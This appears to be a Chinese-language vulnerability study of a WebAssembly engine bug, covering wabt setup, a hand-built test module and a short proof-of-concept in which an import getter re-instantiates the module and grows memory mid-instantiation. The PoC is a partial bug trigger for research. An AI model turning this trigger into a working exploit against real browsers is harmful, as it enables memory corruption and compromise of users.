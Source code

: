 ### wasm

wabt搭建：
```
git clone --recursive https://github.com/WebAssembly/wabt 
cd wabt
make
```

用 010 editer创建二进制文件test.wasm
![](./img/21.png)

```
# parse test.wasm and write test.wat
$ bin/wasm2wat test.wasm -o test.wat
```
![](./img/22.png)
详细内容可以看下这个文档：http://webassembly.org.cn/getting-started/js-api/

简单介绍一下这段代码：
- WebAssembly 模块可以通过 import 和 export 来导出和引入函数，在此处：(import "mod" "imp" (func (;0;) (type 0))) ，WebAssembly 引入了一个有两个层级的命名空间，同样的，我们必须提供一个两级的命名空间作为 import 对象传递给 instantiate。

```
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
```
- wasm当前有四个可用类型：
    - i32：32位整数
    - i64：64位整数
    - f32：32位浮点数
    - f64：64位浮点数

- 线性内存访问通过显式调用 load 和 store 运算符完成。i32.load: 加载4字节，转换为32位整数;i32.store: (不转换) 存储4字节。

- 总的来说就是导出了两个函数（一个读一个写），引入了一个函数，需要自己实现。

### Root Case

poc：
```
// raw_wasm = ...
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);
// wasm.exports.XXX
```
